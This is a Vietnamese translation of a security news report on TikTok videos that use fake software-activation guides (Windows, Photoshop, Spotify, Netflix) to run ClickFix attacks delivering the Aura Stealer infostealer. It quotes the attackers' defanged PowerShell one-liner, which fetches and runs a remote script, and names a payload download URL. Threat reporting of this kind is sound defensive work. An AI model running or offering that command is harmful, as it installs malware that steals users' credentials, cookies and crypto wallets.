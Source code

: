 # Video trên TikTok tiếp tục phát tán phần mềm đánh cắp thông tin thông qua các cuộc tấn công ClickFix

![TikTok](https://www.bleepstatic.com/content/hl-images/2022/08/31/TikTok.jpg)

Tin tặc đang sử dụng các video trên TikTok giả danh hướng dẫn kích hoạt miễn phí cho phần mềm phổ biến như Windows, Spotify và Netflix để phát tán mã độc đánh cắp thông tin.

ISC Handler Xavier Mertens phát hiện chiến dịch đang diễn ra này, chủ yếu giống với chiến dịch [được quan sát bởi Trend Micro](https://www.bleepingcomputer.com/news/security/tiktok-videos-now-push-infostealer-malware-in-clickfix-attacks/) vào tháng Năm

Các video trên TikTok mà BleepingComputer thấy giả vờ cung cấp hướng dẫn cách kích hoạt các sản phẩm hợp pháp như Windows, Microsoft 365, Adobe Premiere, Photoshop, CapCut Pro và Discord Nitro, cũng như các dịch vụ bịa đặt như Netflix và Spotify Premium.

![](https://www.bleepstatic.com/images/news/security/t/tiktok/infostealers/tiktok-videos.jpg)

**Video độc hại trên TikTok phát tán phần mềm đánh cắp thông tin**  
_Nguồn: BleepingComputer.com_

Các video đang thực hiện một cuộc tấn công ClickFix, một kỹ thuật xã hội hóa cung cấp những “khắc phục” hoặc hướng dẫn có vẻ hợp lệ nhằm lừa người dùng thực thi các lệnh PowerShell độc hại hoặc các script khác khiến máy tính bị nhiễm mã độc.

Mỗi video hiển thị một lệnh ngắn một dòng và bảo người xem chạy nó với quyền administrator trong PowerShell:

```
iex (irm slmgr[.]win/photoshop)
```

Cần lưu ý rằng tên chương trình trong URL khác nhau tùy theo chương trình bị mạo danh. Ví dụ, trong các video kích hoạt Windows giả, thay vì URL chứa _photoshop_, nó sẽ bao gồm _windows_.

Trong chiến dịch này, khi lệnh được thực thi, PowerShell kết nối đến trang từ xa slmgr\[.\]win để truy xuất và thực thi một script PowerShell khác.

Script này tải xuống hai file thực thi từ Cloudflare pages, với file thực thi đầu tiên được tải xuống từ https://file-epq\[.\]pages\[.\]dev/updater.exe \[[VirusTotal](https://www.virustotal.com/gui/file/58b11b4dc81d0b005b7d5ecae0fb6ddb3c31ad0e7a9abf9a7638169c51356fd8)\]. File thực thi này là một biến thể của [Aura Stealer](http://AuroStealer) — mã độc đánh cắp thông tin.

Aura Stealer thu thập thông tin đăng nhập đã lưu từ các trình duyệt, cookie xác thực, ví tiền mã hóa và thông tin đăng nhập từ các ứng dụng khác và tải chúng lên kẻ tấn công, cho phép chúng truy cập vào tài khoản của bạn.

Mertens cho biết một payload bổ sung sẽ được tải xuống, có tên source.exe \[[VirusTotal](https://www.virustotal.com/gui/file/db57e4a73d3cb90b53a0b1401cb47c41c1d6704a26983248897edcc13a367011)\], được sử dụng để tự biên dịch mã bằng Visual C# Compiler (csc.exe) tích hợp sẵn của .NET. Mã này sau đó được tiêm và khởi chạy trong bộ nhớ.

Mục đích của payload bổ sung vẫn chưa rõ ràng.

Người dùng thực hiện những bước này nên xem tất cả thông tin đăng nhập của họ có khả năng đã bị xâm phạm và ngay lập tức đặt lại mật khẩu trên tất cả các trang họ truy cập.

Các cuộc tấn công ClickFix đã trở nên rất phổ biến trong năm qua, được sử dụng để phân phối nhiều họ mã độc khác nhau trong các chiến dịch tống tiền và đánh cắp tiền mã hóa.

Theo nguyên tắc chung, người dùng không bao giờ nên sao chép văn bản từ một trang web và chạy nó trong hộp thoại hệ điều hành, bao gồm trong [File Explorer address bar](https://www.bleepingcomputer.com/news/security/filefix-attack-weaponizes-windows-file-explorer-for-stealthy-powershell-commands/), command prompt, PowerShell prompts, macOS terminal và Linux shells.